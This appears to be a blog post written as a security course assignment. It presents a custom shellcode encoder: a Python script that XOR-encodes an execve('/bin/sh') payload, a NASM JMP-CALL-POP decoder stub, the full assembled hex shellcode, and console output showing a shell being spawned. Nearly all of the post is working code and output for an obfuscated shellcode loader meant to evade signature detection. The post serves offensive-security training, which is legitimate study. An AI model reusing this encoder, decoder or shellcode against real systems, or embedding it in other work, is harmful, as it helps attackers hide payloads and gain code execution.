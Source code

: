 ```yaml
---
layout: single 
classes: wide
title:  "Custom Shellcode Encoder"
date:   2020-03-15 18:54:48 +0800
categories: jekyll update
---
```


For this 4th assigment, the objective is to create an encoder to obfuscate the shellcode and then the shellcode will be decode itself to execute the decoded/original shellcode.

## Requirements

- Create a custom encoding scheme
- PoC with using execve-stack as the shellcode

## The Encoder

I've created the simple python script to encode the shellcode, the encoder is based on the following method in this order:
- XOR shellcode 4 bytes (dword) size with the custom XOR key (4 bytes) `deafface`
- XOR shellcode byte with the custom byte `0x7`

and the following encoder script will encode the simple `execve("/bin/sh")` shellcode.

{% highlight python linenos %}
#!/usr/bin/env python

# put shellcode here to encode
# http://shell-storm.org/shellcode/files/shellcode-811.php
# execve("/bin/sh")
shellcode = \
("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

res  = ""

# xor key
dkey  = 'deafface' # 4 bytes '\xde\xaf\xfa\xce'
bkey  = 0x7        # byte

def xor_strings(s1, s2):
    return ''.join(format(int(a, 16) ^ int(b, 16), 'x') for a,b in zip(s1,s2))

step = 4
n = 2
for i in range(0, len(shellcode), 4):
    # padding with \x90
    byte    = shellcode[i:step].encode('hex')  + '90'*((8-len(shellcode[i:step].encode('hex') ))/2)

    xor_str = xor_strings(byte, dkey)
    res  += "%s," % ','.join([ hex(int(xor_str[ii-n:ii],16) ^ bkey) for ii in range(len(xor_str),0,-n)])
    step += 4

print "[*] Original Shellcode: \n%s" % "".join([ "0x%s," % 
shellcode.encode('hex')[x:2+x] for x in range(0, len(shellcode.encode('hex')), 2) ])[:-1]
print "[*] Length : %s" % len(shellcode)
print "[+] XOR dword key: 0x%s" % dkey
print "[+] XOR byte key: 0x%s" % bkey
print "[*] Encoded Shellcode: \n%s" % res[:-1]
print "[*] Length : %s" % len(res.split(','))
{% endhighlight %}

### Run the encoder

The encoder will encode the original shellcode to execute `execve("/bin/sh")`. We can see below output the original length of the shellcode is `25` and after encoded it, the length become `29`.
To run the encoder python script:

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/encoder$ python encoder.py 
[*] Original Shellcode: 
0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,
0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
[*] Length : 25
[+] XOR dword key: 0xdeafface
[+] XOR byte key: 0x7
[*] Encoded Shellcode: 
0xa1,0xad,0x68,0xe8,0xa1,0x8e,0x87,0xf6,0xa0,0x9f,0x87,0xb1,0x99,0x1e,0x21,0xb7,0x40,
0xae,0x4a,0x50,0x4,0xf6,0x18,0x38,0x59,0x6d,0x38,0x59
[*] Length : 29
{% endhighlight %}

## The Decoder

The decoder is assembly code and using JMP-CALL-POP method, the decoder is based on the following method to decode the shellcode in this order:
- XOR shellcode with the custom byte `0x7`
- XOR shellcode 4 bytes (dword) with the custom XOR key (4 bytes) `deafface`

{% highlight nasm linenos %}
global _start:

section .text
_start:
    jmp short call_shellcode ; JMP-CALL-POP Method

decoder:
    pop esi                 ; get address of EncodedShellcode
    xor ecx, ecx            ; ecx = 0
    mul ecx                 ; eax = 0
    cdq                     ; edx = 0; xor edx, edx
    mov cl, slen            ; cl = length of encoded shellcode
    mov edi, 0xcefaafde     ; xor key: deafface

decode:
    mov al, byte [esi]      ; al= 1st byte
    mov ah, byte [esi + 1]  ; ah= 2nd byte
    mov bl, byte [esi + 2]  ; bl= 3rd byte
    mov bh, byte [esi + 3]  ; bh= 4th byte
    xor al, 0x7             ; xor 1st byte
    xor ah, 0x7             ; xor 2nd byte
    xor bl, 0x7             ; xor 3rd byte
    xor bh, 0x7             ; xor 4th byte
    mov byte [esi], bh      ; replace the 1st byte with decoded shellcode byte
    mov byte [esi + 1], bl  ; replace the 2nd byte with decoded shellcode byte
    mov byte [esi + 2], ah  ; replace the 3rd byte with decoded shellcode byte
    mov byte [esi + 3], al  ; replace the 4th byte with decoded shellcode byte

    xor dword [esi], edi    ; xor dword with xor key

    add esi, 0x4            ; mov to next 4 byte
    sub ecx, 0x4            ; ecx = length of shellcode - decrease counter by 4
    jnz short decode        ; loop if ecx not zero
    
    jmp short EncodedShellcode ; jmp to esi - decoded shellcode 

call_shellcode:
    call decoder            ; jmp to decoder label and save the address of EncodedShellcode
    EncodedShellcode: db 0xa1,0xad,0x68,0xe8,0xa1,0x8e,0x87,0xf6,0xa0,0x9f,0x87,0xb1,0x99,0x1e,
                      db 0x21,0xb7,0x40,0xae,0x4a,0x50,0x4,0xf6,0x18,0x38,0x59,0x6d,0x38,0x59
    slen equ $-EncodedShellcode ; length of the encoded shellcode
{% endhighlight %}

### Run the decoder

To compile and run the shellcode i've created the helper script `Makefile` to automate the repetitive tasks, please refer to ["Shell Bind TCP Shellcode"](http://localhost:8080/jekyll/update/2020/02/01/1-Shell-Bind-Tcp.html#helper-script) page.

To compile the assembly code: `make target=filename`, and this will do the following tasks:
- Print the size of the shellcode
- Print the shellcode hex format
- Put the shellcode into C wrapper
- Compile the C wrapper

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/encoder$ make target=insertion-decoder
[*] Assembling with nasm...
nasm -f elf32 -o insertion-decoder.o insertion-decoder.nasm

[*] Linking object...
ld -m elf_i386 -o insertion-decoder insertion-decoder.o

[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     93       0       0      93      5d insertion-decoder

[*] Shellcode:
"\xeb\x3a\x5e\x31\xc9\xf7\xe1\x99\xb1\x1c\xbf\xde\xaf\xfa\xce\x8a\x06\x8a\x66\x01\x8a
\x5e\x02\x8a\x7e\x03\x34\x07\x80\xf4\x07\x80\xf3\x07\x80\xf7\x07\x88\x3e\x88\x5e\x01
\x88\x66\x02\x88\x46\x03\x31\x3e\x83\xc6\x04\x83\xe9\x04\x75\xd5\xeb\x05\xe8\xc1\xff
\xff\xff\xa1\xad\x68\xe8\xa1\x8e\x87\xf6\xa0\x9f\x87\xb1\x99\x1e\x21\xb7\x40\xae\x4a
\x50\x04\xf6\x18\x38\x59\x6d\x38\x59"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

To run the shellcode inside C wrapper: `make target=filename run-shellcode`

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/encoder$ make target=insertion-decoder run-shellcode
[*] Running shellcode...
./shellcode
Shellcode Length:  93
$ whoami
kecebong
$ uptime
 21:11:20 up 4 days,  4:39,  1 user,  load average: 0.41, 0.17, 0.09
$ exit
kecebong@ubuntu:~/slae32/assigment/encoder$ 
{% endhighlight %}

## Demo
![image](/assets/img/assigment4.gif)

{% include_relative slae32.html %}

